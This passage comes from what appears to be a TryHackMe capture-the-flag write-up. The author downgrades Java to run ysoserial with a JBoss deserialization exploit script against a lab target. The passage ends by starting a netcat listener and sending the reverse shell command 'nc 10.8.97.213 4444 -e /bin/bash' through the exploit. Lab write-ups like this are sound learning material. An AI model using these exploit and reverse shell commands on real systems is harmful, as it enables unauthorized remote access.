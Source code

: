 So in my situation, the `11` version is the oldest that I can install (it might be `8` or `9` from the researching on the internet) → `sudo apt-get install openjdk-11-jdk` to install

After installation, I need to set the default path of `jdk` to the new one (`11`):

```tsx
┌──(kali㉿kali)-[~/TryHackMe/tonythetiger/jboss]
└─$ sudo update-alternatives --config java                                              
There are 2 choices for the alternative java (providing /usr/bin/java).

  Selection    Path                                         Priority   Status
------------------------------------------------------------
* 0            /usr/lib/jvm/java-17-openjdk-amd64/bin/java   1711      auto mode
  1            /usr/lib/jvm/java-11-openjdk-amd64/bin/java   1111      manual mode
  2            /usr/lib/jvm/java-17-openjdk-amd64/bin/java   1711      manual mode

Press <enter> to keep the current choice[*], or type selection number: 1
update-alternatives: using /usr/lib/jvm/java-11-openjdk-amd64/bin/java to provide /usr/bin/java (java) in manual mode
                                                                                                                   
┌──(kali㉿kali)-[~/TryHackMe/tonythetiger/jboss]
└─$ java --version
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
openjdk 11.0.17 2022-10-18
OpenJDK Runtime Environment (build 11.0.17+8-post-Debian-2)
OpenJDK 64-Bit Server VM (build 11.0.17+8-post-Debian-2, mixed mode, sharing)
```

Now, I execute the file again

```tsx
┌──(kali㉿kali)-[~/TryHackMe/tonythetiger/jboss]
└─$ python2 exploit.py --proto http --ysoserial-path ysoserial.jar 10.10.125.214:8080 id
[*] Target IP: 10.10.125.214
[*] Target PORT: 8080
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
[+] Command executed successfully
```

Ok! The command now executed successfully

# Gain Access

Start the `Netcat Listener` on the local machine then execute the file with the command as a reverse shell payload

```tsx
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
```

```tsx
┌──(kali㉿kali)-[~/TryHackMe/tonythetiger/jboss]
└─$ python2 exploit.py --proto http --ysoserial-path ysoserial.jar 10.10.125.214:8080 'nc 10.8.97.213 4444 -e /bin/bash'
```

